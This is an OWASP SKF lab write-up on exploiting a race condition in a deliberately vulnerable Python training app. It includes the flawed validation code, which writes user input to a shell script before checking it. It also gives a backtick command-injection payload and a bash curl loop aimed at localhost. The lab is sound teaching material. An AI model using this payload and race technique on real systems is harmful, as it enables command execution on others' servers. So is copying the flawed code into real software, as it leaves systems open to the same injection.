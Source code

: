 # Python - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/race1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/race3.png)

### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    * deletes `"` and `\` from the username
    * opens `hello.sh` file
    * writes a command in it
    * closes the file
    * logs some useful info
    * checks if the username is in the format `[A-Za-z0-9 ]*`
    * returns the username if the regex succedes
2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3. `boot_run()` executes the `hello.sh` file
4. `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```

{% hint style="success" %}
```
 Everything works fine, so where is the problem?
```
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/race4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
